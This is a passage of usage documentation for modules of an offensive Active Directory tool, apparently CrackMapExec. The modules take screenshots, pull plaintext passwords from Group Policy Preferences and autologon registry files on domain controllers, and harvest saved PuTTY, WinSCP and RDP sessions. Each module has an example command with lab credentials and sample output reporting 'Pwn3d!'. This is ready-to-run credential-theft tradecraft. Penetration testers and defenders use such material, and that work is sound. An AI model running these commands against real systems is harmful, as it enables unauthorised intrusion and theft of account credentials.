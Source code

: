 **Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M get_timedscreenshot -o INTERVAL=30 ENDTIME=16:04
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## gpp_autologin             
Searches the domain controller for registry.xml to find autologon information and returns the username and password.  
Target needs to be a Domain Controller? (Only way it worked for me)

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
True | True | True | True 

**Options:**
```
```

**Example Usage:**
```
~# cmx smb 192.168.1.110 -u Administrator -p 'AAdmin!23' -M gpp_autologin
```
**Expected Results:**
```
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GPP_AUTO... 192.168.1.110    445    DC2016A          [+] Found SYSVOL share
GPP_AUTO... 192.168.1.110    445    DC2016A          [*] Searching for Registry.xml
~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## gpp_password              
Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.  
Target needs to be a Domain Controller? (Only way it worked for me)

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | true | true 

**Options:**
```
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M gpp_password
```
**Expected Results:**
```
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GPP_PASS... 192.168.1.110    445    DC2016A          [+] Found SYSVOL share
GPP_PASS... 192.168.1.110    445    DC2016A          [*] Searching for potential XML files containing passwords
~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## invoke_sessiongopher      
Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher  